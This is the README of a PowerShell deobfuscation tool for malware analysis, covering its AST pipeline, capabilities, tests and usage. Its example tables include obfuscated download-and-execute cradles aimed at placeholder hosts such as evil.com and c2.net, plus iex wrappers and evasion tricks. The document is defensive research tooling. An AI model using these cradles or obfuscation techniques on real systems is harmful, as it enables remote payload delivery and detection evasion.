

# PowerShell AST Deobfuscator

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/maya-thorne/powershell-ast-deobfuscator"></a>
  <a href="LICENSE"></a>
  <a href="ROADMAP.md"></a>
  <a href="SECURITY.md"></a>
</p>

---

<p align="center">
  <b><a href="#overview">Overview</a></b> &bull;
  <b><a href="#pipeline-architecture">Pipeline Architecture</a></b> &bull;
  <b><a href="#core-capabilities">Core Capabilities</a></b> &bull;
  <b><a href="#repository-structure">Repository Structure</a></b> &bull;
  <b><a href="#verification--tests">Verification &amp; Tests</a></b> &bull;
  <b><a href="#usage">Usage</a></b>
</p>

---

<span id="overview"></span>
## 🔍 Overview

**powershell-ast-deobfuscator** is a compiler-grade Abstract Syntax Tree (AST) parsing and multi-pass deobfuscation engine designed for static reverse engineering, threat hunting, and malware analysis of complex Windows PowerShell scripts.

Modern PowerShell malware heavily exploits multi-layer obfuscation, such as backtick (`` ` ``) token evasion, scattered string concatenation (`+`), format operator (`-f`) template permutations, type accelerator shuffling, reflection unboxing (`.GetMethod().Invoke()`), pipeline encoding loops (`| % { [char]$_ }`), control flow decoy branching, subexpression splits (`$((...))`), case randomization (`iNvOkE-eXpReSsIoN`), and nested Base64 command flags. This suite models PowerShell syntax directly down to tokens and AST nodes, systematically normalizing obfuscated structures into clean, human-readable source code.

---

<span id="pipeline-architecture"></span>
## 🏛️ Pipeline Architecture

<p align="center">
  
</p>

The deobfuscation engine executes a multi-pass fixed-point reduction loop:

1. **Recursive Base64 Encoded Command Unwrapping (`src/encoded_command_unwrapper.py`)**: Recursively extracts and decodes `-EncodedCommand`, `-enc`, and `-e` CLI parameters across command lines and AST `CommandNode` structures with multi-encoding auto-detection (UTF-16LE, UTF-8, UTF-16BE, ASCII), Base64 padding auto-repair, and loop detection.
2. **Lexical Scanning (`src/lexer.py`)**: Tokenizes PowerShell code character-by-character, resolving backtick escape sequences, subexpression tokens (`$(`), string literals, and variable identifiers.
3. **Recursive Descent Parsing (`src/parser.py`)**: Converts token streams into structured AST hierarchies (`ScriptBlockNode`, `PipelineNode`, `FormatOpNode`, `CommandNode`, `SubexpressionNode`, `IndexAccessNode`, `UnaryOpNode`, `DynamicMemberAccessNode`, `DynamicMethodCallNode`, `DynamicStaticMemberAccessNode`, `IfStatementNode`, `WhileStatementNode`, `ForStatementNode`, `ForEachStatementNode`).
4. **Environment &amp; ExecutionContext Inlining (`src/environment_inliner.py`)**: Inlines Windows environment variables (`$env:COMSPEC`, `$env:PATH`), automatic variables (`$PSHOME`, `$ShellId`), preference strings, and unwraps `$ExecutionContext.InvokeCommand` static methods.
5. **Arithmetic &amp; Bitwise Constant Folding (`src/bitwise_folding_engine.py`)**: Evaluates constant bitwise operations (`-bxor`, `-band`, `-bor`, `-shl`, `-shr`, `-bnot`), arithmetic (`+`, `-`, `*`, `/`, `%`), comparison operators, and immediate cast reductions (`[char](0x41 -bxor 0x20)` -> `'a'`).
6. **Static XOR Loop Decryption (`src/xor_loop_decryptor.py`)**: Statically resolves pipeline XOR streams (`@(105, 101, 120) | % { [char]($_ -bxor $k) }`), repeating multi-byte keys, encoding wrappers (`[System.Text.Encoding]::ASCII.GetString(...)`), and imperative `for`/`foreach`/`while` loops with zeroize buffer wiping.
7. **Subexpression Unwrapping &amp; Flattening (`src/subexpression_unwrapper.py`)**: Unboxes redundant subexpression wrappers (`$((('cmd.exe')))`), folds in-subexpression string concatenations, flattens expandable string interpolations, and propagates local assignments.
8. **Casing Randomization Normalization (`src/casing_normalizer.py`)**: Normalizes randomized cmdlet names, 46 approved verbs, 150+ cmdlets and aliases, language keywords, .NET types/accelerators, member methods, and variables into canonical PascalCase or lowercase syntax.
9. **Type Accelerator &amp; Casting Resolver (`src/type_casting_resolver.py`)**: Evaluates type accelerators (`[type]`, `[char[]]`, `[byte[]]`, `[int]`), array index shuffling, reverse slices (`'olleh'[-1..-5] -join ''`), join operators (`-join`), and static .NET conversion methods.
10. **Reflection &amp; Dynamic Member Unwrapping (`src/reflection_unwrapper.py`)**: Statically resolves `.Invoke()`, `::Invoke()`, `GetMethod()`, `GetProperty()`, `GetField()`, dynamic member expressions (`$obj.('Substring')(0, 5)`), and evaluates safe pure .NET methods.
11. **Pipeline Optimization (`src/pipeline_optimizer.py`)**: Evaluates static pipelines: unfolds Foreach mapping blocks (`| % { [char]$_ }`), filters slices and unique values via `Select-Object`, processes `Where-Object` predicates, and simplifies piped commands (`'calc.exe' | iex` -> `iex 'calc.exe'`).
12. **ScriptBlock &amp; Control Flow Simplification (`src/scriptblock_simplifier.py`)**: Inlines invocation wrappers (`& { ... }`, `. { ... }`, `{ ... }.Invoke()`), folds trivial conditional branches (`if ($true)`, `if ($false)`), evaluates static comparisons, and eliminates dead code.
13. **SecureString Decryption &amp; AST Reduction (`src/secure_string_reducer.py`)**: Statically resolves AES encryption keys, decrypts PowerShell `76492d11...` envelopes, unwraps Marshal BSTR and credential password access, and scrubs sensitive memory buffers.
14. **Recursive IEX Unwrapping (`src/iex_unwrapper.py`)**: Recursively detects and peels nested `iex`, `Invoke-Expression`, call/dot operator executions, ScriptBlock API invocations (`[scriptblock]::Create($code).Invoke()`), and multi-stage pipeline streams (`... | iex | iex`), peeling execution layers down to raw payloads while preserving download cradles and guarding against recursion loops.
15. **AST Normalization &amp; Constant Folding (`src/normalizer.py`)**: Inlines string formats (`-f`), collapses string concatenations, strips parentheses artifacts, reduces call operators, and serializes clean syntax.
16. **Fixed-Point Convergence (`src/deobfuscator_engine.py`)**: Iterates reduction passes until the code reaches a stable, non-mutating fixed point.
17. **DownloadString &amp; WebClient API URL Carving (`src/webclient_tracer.py`)**: Statically traces and extracts remote payload download cradles, decodes obfuscated DWORD/hex/octal IPs, binds headers and proxies, and outputs normalized URLs.
18. **Automated Benchmark Harness &amp; Telemetry (`src/benchmark.py`)**: Runs evaluation over a 30-sample corpus across 10 categories, calculating Shannon entropy, artifact removal, ground-truth indicator recall, and composite fidelity score.


---

<span id="core-capabilities"></span>
## ⚡ Core Capabilities

| Capability | Obfuscated Example | Deobfuscated Output |
|---|---|---|
| **Backtick Evasion Stripping** | `In`voke-Exp`ression 'Get-Process'` | `Invoke-Expression 'Get-Process'` |
| **Format Operator (`-f`) Folding** | `'{1}{0}' -f 'World', 'Hello '` | `'Hello World'` |
| **String Concatenation Reduction** | `'Down' + 'load' + 'String'` | `'DownloadString'` |
| **Environment Variable Inlining** | `$env:COMSPEC[4, 15, 25] -join ''` | `'iex'` |
| **Call Operator Simplification** | `& ($env:COMSPEC[4, 15, 25] -join '') 'calc.exe'` | `iex 'calc.exe'` |
| **Preference Variable Inlining** | `$VerbosePreference.ToString()[1, 3] -join ''` | `'ie'` |
| **ExecutionContext Unwrapping** | `$ExecutionContext.InvokeCommand.InvokeScript('Get-Date')` | `Get-Date` |
| **Reflection Method Unwrapping** | `[System.IO.File].GetMethod('ReadAllText').Invoke($null, @('C:\test.txt'))` | `[System.IO.File]::ReadAllText('C:\test.txt')` |
| **Instance Reflection Invocation** | `$wc.GetType().GetMethod('DownloadString').Invoke($wc, @('http://example.com'))` | `$wc.DownloadString('http://example.com')` |
| **Dynamic Member Access** | `'hello'.('Substring')(1, 3)` | `'ell'` |
| **Dynamic Static Member Access** | `[System.Math]::('Max')(10, 20)` | `20` |
| **Reflection Property/Field Get** | `[System.AppDomain].GetProperty('CurrentDomain').GetValue($null, $null)` | `[System.AppDomain]::CurrentDomain` |
| **Pipeline Foreach Evaluation** | `(105, 101, 120 | % { [char]$_ }) -join ''` | `'iex'` |
| **Select-Object Filtering** | `@(10, 20, 30, 40) | select -First 2` | `@(10, 20)` |
| **Where-Object Predicates** | `@(1, 5, 10, 15) | ? { $_ -gt 5 }` | `@(10, 15)` |
| **ScriptBlock Call Inlining** | `& { iex 'calc.exe' }` | `iex 'calc.exe'` |
| **Condition Branch Reduction** | `if ($true) { iex 'calc.exe' } else { 'decoy' }` | `iex 'calc.exe'` |
| **Piped Command Simplification** | `'calc.exe' | iex` | `iex 'calc.exe'` |
| **AST Tree & Diagram Export** | `pwsh-ast script.ps1 --mermaid` | Hierarchical Unicode tree, Mermaid flowchart, DOT, JSON |
| **Type Accelerator Unfolding** | `[string][char[]](73, 69, 88)` | `'IEX'` |
| **Array Slicing &amp; Reversal** | `('olleh'[-1..-5] -join '')` | `'hello'` |
| **Index Shuffling Reduction** | `[char[]](88, 69, 73)[2, 1, 0] -join ''` | `'IEX'` |
| **Encoding Decryption Folding** | `[System.Text.Encoding]::ASCII.GetString([byte[]](73, 69, 88))` | `'IEX'` |
| **SecureString Decryption** | `ConvertTo-SecureString $enc -Key (1..16)` | `'Decrypted String Literal'` |
| **Marshal &amp; Credential Unboxing** | `[Marshal]::PtrToStringAuto([Marshal]::SecureStringToBSTR($sec))` | `'Decrypted String Literal'` |
| **Nested Composite Resolution** | `('{1}{0}' -f ('l'+'d'), ('Wor'+''))` | `'World'` |
| **Base64 EncodedCommand Decode** | `powershell.exe -enc VwBy...` | `Write-Host "Success"` |
| **Nested Base64 Recursive Unwrapping** | `powershell.exe -NoP -enc <b64_nested>` | Innermost decoded and AST-normalized script |
| **Subexpression Unwrapping** | `$((('c' + 'alc' + '.exe')))` | `'calc.exe'` |
| **Casing Randomization Normalization** | `iNvOkE-eXpReSsIoN` | `Invoke-Expression` |
| **Type Casing Restoration** | `[sYsTeM.nEt.wEbClIeNt]` | `[System.Net.WebClient]` |
| **Expandable String Inlining** | `"prefix $( 'cmd' ) suffix"` | `"prefix cmd suffix"` |
| **WebClient URL Carving** | `(New-Object Net.WebClient).('Down'+'loadString')('h'+'ttp://evil.com/x.ps1')` | Normalized URL `http://evil.com/x.ps1`, method `DownloadString`, cradle `iex_download_string` |
| **Obfuscated IP Auto-Decoding** | `(New-Object Net.WebClient).DownloadString('http://2130706433:8080/p.ps1')` | Host decoded to `127.0.0.1`, canonical URL `http://127.0.0.1:8080/p.ps1` |
| **Download Cmdlet Resolution** | `Invoke-WebRequest -Uri 'http://c2.net/x.exe' -OutFile '$env:temp\x.exe'` | Carved target with destination `x.exe`, api `Cmdlet`, cradle `cmdlet_download` |
| **Recursive IEX Peeling** | `iex (iex (iex 'calc.exe'))` | `'calc.exe'` |
| **ScriptBlock API Invocations** | `[scriptblock]::Create('calc.exe').Invoke()` | `'calc.exe'` |
| **IEX Layer Tracing Telemetry** | `pwsh-ast script.ps1 --trace-iex` | Structured JSON layer telemetry with vectors and payload hashes |
| **Automated Benchmark Harness** | `pwsh-ast --benchmark` | 30-sample corpus evaluation, recall, entropy, and fidelity telemetry |

---

<span id="repository-structure"></span>
## 📁 Repository Structure

| Path | Role &amp; Technical Scope |
|---|---|
| `src/tokens.py` | Token definitions, token types enum, and lexical boundary models |
| `src/lexer.py` | Character-level PowerShell tokenizer and backtick escape processor |
| `src/ast_nodes.py` | Abstract Syntax Tree node hierarchy definitions |
| `src/parser.py` | Recursive descent syntax tree parser |
| `src/normalizer.py` | AST constant folding, `-f` inlining, and clean source code serializer |
| `src/bitwise_folding_engine.py` | Arithmetic and bitwise operator static constant folding engine |
| `src/xor_loop_decryptor.py` | Static XOR decryption loop, repeating-key cipher evaluator & memory wiper |
| `src/subexpression_unwrapper.py` | Subexpression $(...) unboxing, redundant nesting elimination &amp; expandable string inliner |
| `src/casing_normalizer.py` | Canonical cmdlet, verb, keyword, type accelerator, member &amp; variable casing normalizer |
| `src/ast_visualizer.py` | AST visualizer, Unicode and ASCII hierarchical tree renderer |
| `src/ast_exporter.py` | AST diagram generator, Mermaid, Graphviz DOT, JSON &amp; metrics exporter |
| `src/encoded_command_unwrapper.py` | Base64 encoded command recursive unwrapper, multi-encoding detector &amp; entropy telemetry |
| `src/type_accelerators.py` | PowerShell type accelerator dictionary, normalization &amp; .NET reflection metadata |
| `src/type_casting_resolver.py` | Evaluator for type casts, array index shuffling, reverse slices, and join operations |
| `src/environment_inliner.py` | Windows environment variables, automatic variables &amp; ExecutionContext inlining engine |
| `src/reflection_unwrapper.py` | Reflection .Invoke(), ::Invoke(), GetMethod(), GetProperty(), GetField() &amp; pure .NET evaluator |
| `src/pipeline_optimizer.py` | Pipeline stages, Foreach conversion, Select filtering, Where predicates &amp; Out-String |
| `src/scriptblock_simplifier.py` | ScriptBlock unwrapping (&, ., .Invoke()), trivial conditionals &amp; dead code elimination |
| `src/secure_string_crypto.py` | SecureString envelope parsing, AES-CBC decryption, and buffer zeroization |
| `src/static_key_extractor.py` | Static AES key extractor from ranges, array literals, byte casts, and variables |
| `src/secure_string_reducer.py` | AST reducer for ConvertTo-SecureString, Marshal BSTR, and credential objects |
| `src/benchmark_corpus.py` | Curated 30-sample representative real-world obfuscated PowerShell corpus across 10 categories |
| `src/benchmark_metrics.py` | Shannon entropy, artifact detection, ground-truth recall, AST validity &amp; fidelity scoring |
| `src/benchmark_runner.py` | Automated batch test runner, execution timer, and Text/JSON/Markdown report generator |
| `src/benchmark.py` | Unified public facade for the automated benchmark suite |
| `src/webclient_tracer.py` | WebClient, HttpClient, download cmdlet static tracer &amp; remote payload URL carving engine |
| `src/iex_unwrapper.py` | Recursive IEX (Invoke-Expression) wrapper tracking, peeling engine &amp; execution layer telemetry |
| `src/deobfuscator_engine.py` | Multi-pass fixed-point convergence engine |
| `src/cli.py` | Command-line interface with AST visualization, benchmark runner, URL carver &amp; forensic telemetry |
| `tests/` | Comprehensive test suite (317 unit tests) covering lexer, parser, normalizer, crypto, URL carving &amp; benchmarks |
| `ROADMAP.md` | Public development milestones and engineering roadmap |
| `SECURITY.md` | Vulnerability disclosure policy and reporting process |

---

<span id="verification--tests"></span>
## 📊 Verification &amp; Tests

Run the full automated test suite:

```bash
python -m unittest discover tests -v
```

All 317 unit tests execute with zero failures:

```text
Ran 317 tests in 0.226s

OK
```

---

<span id="usage"></span>
## 🚀 Usage

### Command-Line Interface

Deobfuscate a raw string or file:

```bash
# Direct inline string deobfuscation
python -m src.cli "('{1}{0}' -f 'World', 'Hello ')"

# Script file input with output redirection
python -m src.cli malicious_sample.ps1 -o cleaned_sample.ps1

# Inspect token stream
python -m src.cli "Invoke-Expression" --tokens

# Subexpression and casing normalization (active by default)
python -m src.cli "iNvOkE-eXpReSsIoN `$((('calc.exe')))"
# Output: Invoke-Expression 'calc.exe'

# Recursive IEX peeling (peels nested wrappers down to payload)
python -m src.cli "iex (iex (iex 'calc.exe'))"
# Output: 'calc.exe'

# Trace layered IEX unwrapping telemetry as structured JSON
python -m src.cli sample.ps1 --trace-iex

# Disable specific passes if raw casing, subexpression, or IEX syntax is required
python -m src.cli sample.ps1 --no-normalize-casing --no-unwrap-subexpr --no-unwrap-iex
```

#### Automated Benchmark Harness

Run automated deobfuscation accuracy and fidelity benchmarks across the curated 30-sample corpus:

```bash
# Run full 30-sample benchmark suite (default text table)
python -m src.cli --benchmark

# Run benchmark for a specific sample ID
python -m src.cli --benchmark-sample SAMPLE-01

# Run benchmark for an entire evasion category
python -m src.cli --benchmark-category "Format Operator Shuffle"

# Export benchmark telemetry as JSON or Markdown report
python -m src.cli --benchmark --benchmark-format markdown --benchmark-report docs/benchmark_report.md
python -m src.cli --benchmark --benchmark-format json --benchmark-report docs/benchmark_report.json
```

#### AST Visualization &amp; Export

Visualize or export the Abstract Syntax Tree into multiple formats:

```bash
# Render hierarchical Unicode tree (default --ast)
python -m src.cli "$x = 'test' + 'ing'" --ast

# Render plain ASCII tree
python -m src.cli "$x = 'test' + 'ing'" --ascii

# Export as Mermaid flowchart diagram
python -m src.cli "if ($true) { Get-Process } else { Get-Service }" --mermaid

# Export as Graphviz DOT graph
python -m src.cli "Get-Process | Out-String" --dot

# Export as structured JSON tree
python -m src.cli "Get-Process | Out-String" --json -o ast_dump.json

# Extract structural AST metrics & complexity statistics
python -m src.cli "Get-Process | Out-String" --stats
```

#### Remote Payload URL Carving &amp; Cradle Tracing

Statically carve remote payload download URLs, decode obfuscated IPs, and extract cradle telemetry:

```bash
# Print unique canonical payload URLs (one per line)
python -m src.cli sample.ps1 --urls

# Dump complete forensic telemetry with method, headers, proxy, and cradle type (JSON)
python -m src.cli sample.ps1 --carve-urls -o carved_targets.json
```

### Python API

```python
from src.deobfuscator_engine import PowerShellDeobfuscator
from src.iex_unwrapper import unwrap_iex, trace_iex_layers
from src.ast_visualizer import render_ast_tree
from src.ast_exporter import export_ast_mermaid, export_ast_json, extract_ast_metrics
from src.benchmark import run_benchmark, to_text_report, to_markdown_report
from src.webclient_tracer import trace_webclient, extract_download_urls

# 1. Multi-pass deobfuscation
engine = PowerShellDeobfuscator()
raw_code = "In`voke-Exp`ression ('{1}{0}' -f 'ing', 'DownloadStr')"
cleaned_code = engine.deobfuscate(raw_code)
print(cleaned_code)
# Output: Invoke-Expression 'DownloadString'

# 2. Recursive IEX Peeling & Layer Telemetry
result = unwrap_iex("iex (iex (iex 'calc.exe'))")
print(f"Peeled: {result.code}, Layers: {result.total_layers_peeled}")
# Output: Peeled: 'calc.exe', Layers: 3

# 3. Automated Benchmark Harness Execution
summary = run_benchmark()
print(f"Fidelity Score: {summary.average_fidelity_score}%, Recall: {summary.average_indicator_recall * 100.0}%")
print(to_text_report(summary))

# 4. Remote Payload URL Carving & WebClient Tracing
targets = trace_webclient("(New-Object Net.WebClient).DownloadString('http://2130706433:8080/beacon.ps1')")
for t in targets:
    print(f"URL: {t.url}, Host: {t.host}, IP Decoded: {t.ip_decoded}, Cradle: {t.cradle_type}")
# Output: URL: http://127.0.0.1:8080/beacon.ps1, Host: 127.0.0.1, IP Decoded: 2130706433 -> 127.0.0.1, Cradle: iex_download_string

# 5. AST Visualization
tree = render_ast_tree("$x = 'test' + 'ing'")
print(tree)

# 6. Export to Mermaid diagram
mermaid_diagram = export_ast_mermaid("if ($true) { Get-Process }")
print(mermaid_diagram)

# 7. Extract structural metrics
metrics = extract_ast_metrics("Get-Process | Out-String")
print(f"Total nodes: {metrics['total_nodes']}, Cyclomatic complexity: {metrics['cyclomatic_complexity']}")
```

---

## 📜 License

This project is licensed under the **Maya Thorne Systems &amp; Security Research License (MT-SRL)**. See [LICENSE](LICENSE) for details.
